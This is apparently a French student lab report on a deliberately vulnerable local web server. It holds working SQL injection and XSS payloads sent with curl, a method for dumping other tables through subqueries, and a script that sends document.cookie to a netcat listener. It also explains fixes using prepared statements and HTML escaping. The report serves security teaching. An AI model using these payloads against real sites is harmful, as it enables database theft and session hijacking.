 # Rendu "Injection"

## Binome

Nom, Prénom, email: KROL Mikolaï mikolai.krol.etu@univ-lille.fr  
Nom, Prénom, email: HOLVOET Adrien adrien.holvoet.etu@univ-lile.fr


## Question 1

* Quel est ce mécanisme?   

La mise en place d'une vérification de l'input par une function javascript avec un regex. Donc une vérification côté client.

* Est-il efficace? Pourquoi?   
Non car c'est très simple de contourner une vérification côté client, il est préférable de faire cela côté serveur. En effet cette vérification peut-être contourner par une simple requête curl ou encore en désactivant le javascript dans la navigateur.

## Question 2

* Votre commande curl   
```
curl -d "chaine=f(-(é_à" http://localhost:8080;
```

## Question 3

* Votre commande curl pour mettre le contenu que je souhaite dans le champ who autre que l'adresse ip 127.0.0.1
```
curl -d 'chaine=mon text%27%,%27ce que je veux%27) -- '  http://localhost:8080;
```


* Expliquez comment obtenir des informations sur une autre table

Pour obtenir les infos d'une autre table, il faudrait connaitre le nom de celle-ci et également les colonnes que l'on souhaite regarder. Et on pourrait alors combiner la commande INSERT INTO avec la commande SELECT pour selectionner les valeurs comprises dans une autres tables, les insérer dans les colonnes txt et who de notre table chaines qui s'affichera sur notre page web.
La commande SQL ressemblerais à ça `INSERT INTO chaines (txt,who) VALUES ((SELECT col1 FROM otherTable), (SELECT col2 FROM otherTable))`, il suffirait de limiter chaque select pour n'avoir qu'un seul resultat et ne pas provoquer une erreur SQL : 'Subquery returns more than 1 row'. Ca peut se faire par exemple en rajoutant une clause where id=1 et incrémenter cette id dans une boucle while où on exécutera notre commande curl en boucle afin de récuperer tous les enregistrements. Commande SQL final : `INSERT INTO chaines (txt,who) VALUES ((SELECT col1 FROM otherTable where id=i), (SELECT col2 FROM otherTable where id=i))` i s'incrémente à chaque boucle.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.   

Nous utilons donc un Parameterized query et prepared statement afin d'évitez les injections SQL.  Pour cela nous devons premièrement mettre en place un prepared statement sur notre cursor comme ceci : `cursor = self.conn.cursor(prepared=True)`. Ensuite, nous avons créer la parameterized SQL query qui utilisent deux placeholders comme ceci : `requete = "INSERT INTO chaines (txt,who) VALUES(%s, %s)"` Les inputs rentrés par l'utilisateur vont se retrouver dans un tuple  `values = (post["chaine"], cherrypy.request.remote.ip)` qui va prendre  la place de ces placeholders(%s, %s). Il ne suffit plus maintenant que d'utiliser la méthode `execute` du `cursor` afin d'exécutur notre requête SQL, celui-ci prend donc notre parameterized SQL query et notre tuple, comme ceci : `cursor.execute(requete, values)`.   
Ce mécanisme permet d'empêcher donc l'injection SQL de la Question 3

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
```
curl -d 'chaine=<script>alert("hello")</script>'  http://localhost:8080;
```

* Commande curl pour lire les cookies . 

D'abord il faut lancer la commande netcat : `nc -l -p 8081` et on pourra voir le contenu du cookie dans le terminal où cette commande a été lancé

```
curl -d 'chaine=<script>window.location.replace("http://localhost:8081/search?cookie=" %2B document.cookie)</script>'  http://localhost:8080;

```

## Question 6

* Rendre un fichier server_xss.py avec la correction de la faille. Expliquez la demarche que vous avez suivi.

   - On escape la chaine passée en paramètre avant l'insertion en base de donnée, la chaine inserée ne contiendra donc aucun caractère qui pourrait être interprété comme du html quand on l'insèrera dans la page html. Comme ceci : `values = (html.escape(post["chaine"]), cherrypy.request.remote.ip)`

   - On peut également escape la chaine dans l'html au cas où des scripts se trouve déja dans la base de donnée comme ceci :  `'''+"\n".join(["<li>" + html.escape(s) + "</li>" for s in chaines])+'''`.  Cette démarche est inutile dans le cas où toutes les requêtes passe par ce serveur qui utilise l'html espace juste avant l'insertion en base de donnée.



